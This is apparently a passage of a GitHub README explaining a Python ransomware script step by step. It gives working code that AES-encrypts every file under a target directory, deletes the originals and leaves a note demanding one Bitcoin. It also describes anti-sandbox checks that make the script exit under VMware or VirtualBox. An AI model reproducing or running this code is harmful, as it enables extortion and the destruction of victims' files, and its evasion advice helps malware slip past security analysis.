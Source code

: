 ### 3. **File Encryption**

Each file is read and encrypted using AES in CBC mode. The encrypted data, along with the initialization vector (IV), is saved with a `.locked` extension. The original file is then deleted to avoid leaving unencrypted data.

```python
def encrypt_file(file_path, key):
    with open(file_path, "rb") as f:
        data = f.read()

    cipher = AES.new(key, AES.MODE_CBC)
    encrypted_data = cipher.encrypt(pad(data, AES.block_size))

    with open(file_path + ENCRYPTION_EXT, "wb") as f:
        f.write(cipher.iv + encrypted_data)

    os.remove(file_path)
```

### 4. **Target Directory Traversal**

The script encrypts files within the specified `TARGET_DIR` by traversing each file. Files are skipped if they already have the `.locked` extension to prevent re-encryption.

```python
def encrypt_files_in_directory(directory, key):
    for root, _, files in os.walk(directory):
        for file in files:
            file_path = os.path.join(root, file)
            if not file.endswith(ENCRYPTION_EXT):
                encrypt_file(file_path, key)
```

### 5. **Ransom Note Creation**

A ransom note is created in the target directory with instructions on how to recover the files, including the ransom amount and a Bitcoin address.

```python
def create_ransom_note():
    note_path = os.path.join(TARGET_DIR, "README_FOR_DECRYPTION.txt")
    ransom_message = """
    Your files have been encrypted.
    To recover your files, please send 1 Bitcoin to the specified address.
    Once payment is received, you will receive instructions to decrypt your files.
    """
    with open(note_path, "w") as f:
        f.write(ransom_message)
```

### 6. **Anti-Analysis Evasion**

The script checks for sandbox environments by looking for common virtualization software indicators (e.g., VMware, VirtualBox). It exits immediately if a virtual environment is detected.
